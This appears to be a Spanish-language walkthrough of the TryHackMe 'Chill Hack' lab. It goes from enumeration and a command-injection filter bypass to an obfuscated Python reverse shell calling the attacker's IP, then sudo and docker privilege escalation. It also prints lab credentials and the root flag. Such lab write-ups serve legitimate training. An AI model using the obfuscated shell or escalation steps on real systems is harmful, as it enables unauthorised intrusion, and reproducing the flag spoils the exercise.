

# Maquina Chill Hack - TryHackme

* Nivel : Easy
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 10.10.104.194 (En mi caso)

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 10.10.104.194
```

```bash
Nmap scan report for 10.10.104.194
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.95.220
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 31:c2:8b:1f:42:d0:1b:10:bf:45:30:9f:1c:10:ce:84 (RSA)
|   256 df:46:44:66:38:49:62:98:a9:37:f3:1f:e3:cf:02:84 (ECDSA)
|_  256 6b:9a:f5:d3:0f:26:1f:0a:25:a8:45:a2:19:d5:53:fa (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Game Info
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/25%OT=21%CT=1%CU=33485%PV=Y%DS=2%DC=T%G=Y%TM=685C
OS:0D42%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M509ST11NW7%O2=M509ST11NW
OS:7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=F4B3%
OS:W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M509N
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   59.67 ms 10.21.0.1
2   59.65 ms 10.10.104.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.61 seconds
```
El escaneo muestara que estan abiertos los puertos 21 ftp , 22 ssh  y 80 http. Tambén que se puede acceder a ftp con el user anonymous.

## FTP 
Acceder al ftp con el user anonymous y password anonymous
```bash
ftp 10.10.104.194     
Connected to 10.10.104.194.
220 (vsFTPd 3.0.5)
Name (10.10.104.194:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Dentro hay un txt con una un nombre Anurodh y una pista.

## Escaneo Web - Gobuster

```bash
gobuster dir -u http://10.10.104.194/ -w /usr/share/wordlists/dirb/big.txt -t 30 -x php,txt,htm
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.194/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,htm
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.htm        (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.htm        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/contact.php          (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://10.10.104.194/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.104.194/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.10.104.194/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.104.194/js/]
/secret               (Status: 301) [Size: 315] [--> http://10.10.104.194/secret/]
/server-status        (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================

```
Mirare en la ruta /secret ya que tiene pinta de tener algo.



En la ruta /secret/ se pueden ejecutar comandos, con el user www-data. Al probar comandos como el cat, ls entre otros, estan restringidos y salta un aviso.

Entonces probar con otros comandos. Al colcar este comando con while, mostrara el contenido del passwd, para saber los users que hay. Hay otras formas de hacerlo.

```bash
while IFS= read -r linea; do echo "$linea"; done </etc/passwd
```
Estan los posibles users : ubuntu, anurodh, apaar, aurick, ya que suele empezar el primer user asi 1000:1000 , he intentado a hacer un hydra con los user pero al ver que tarda, seguramente haya otra manera de acceder.

## Acceso remoto

He utilizado IA para que me genere un payload para hacer un reverse shell, en mi caso el codigo es el siguiente, pero la ip de mi maquina esta codificada. 

```bash
En otra terminal : nc -nlvp 4444
```
 b"\x31\x30\x2e\x32\x31\x2e\x39\x35\x2e\x32\x32\x30" Esta parte la tendrias que cambiar por tu ip en hexadecimal
```bash
 /usr/bin/python3 -c '__=__import__;s=__("so""cket");o=__("o""s");p=__("pt""y");c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect((b"\x31\x30\x2e\x32\x31\x2e\x39\x35\x2e\x32\x32\x30".decode(),4444));[o.dup2(c.fileno(),x) for x in(0,1,2)];p.spawn("/b"+"in/"+"b"+"ash")
```
## Escalar privilegios 

Una vez con una terminal con el user www-data. Utilizar el sudo -l.

```bash
www-data@ip-10-10-104-194:/home/apaar$ sudo -l
```
```bash
Matching Defaults entries for www-data on ip-10-10-104-194:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-104-194:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
Se puede usar el user appar para ejecutar con sudo el /home/apaar/.helpline.sh sin contraseña. Al ejecutar, en las opciones de escribir, escribir /bin/sh : 
```bash
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: /bin/sh
/bin/sh
Hello user! I am /bin/sh,  Please enter your message: /bin/sh
/bin/sh
```
Y ya eres apaar. En su home el local.txt es una flag.

## Escalar a otro user

Buscar en la ruta /var/www/ en busca de algo. Esta la carpeta files, de aqui interesa el index.php, la web tenia un login.

```bash
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }

```
Dentro hay una contraseña para el user root en la base de datos.

Entrae en la base de datos. Poner la password de antes

```bash
mysql -u root -p
```

```bash
mysql>    SHOW DATABASES;
   SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.01 sec)

```

```bash
mysql>  SHOW TABLES;
 SHOW TABLES;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)
```

```bash
mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

```
Aqui tenemos la password de Apaar y Anurodh encriptada, usare la de Appar ya que puede ejecutar todos los comandos.
Yo he utilizado crakstation.
```bash
	686216240e5af30df0501e53c789a649 : dontaskdonttell
```
No funciona ninguno de los 2, ni para su anurodh. 

En algun de los archivos que hay en el /file/ daba una pista de una imagen del directorio images. Entonces me pase la imagen para buscar archivos ocultos.

```bash
apaar@ip-10-10-104-194:/var/www/files/images$ python3 -m http.server 8080
```
Al tener la imagen he usado una herramienta para extraer archivos de imagenes. 
```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```
Enter cuando pida contraseña y extrae un zip

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```
Con fcrackzip conseguir la contraseña para extraer el contenido del zip.

Extrae un php que contiene : 

```bash
 if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")

```
He usado una web para decifrar la password : !d0ntKn0wmYp@ssw0rd 

Probare su anurodh con este password en la terminal.

## De Anurodh a root

Usar el comando id, y el user pertenece al grupo que puede ejecutar docker
```bash
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

En la pagina web GTFobins buscar un shell para escalar a root 

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Y ya eres root, en la ruta /root esta la utlima flag.

```bash
 {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```


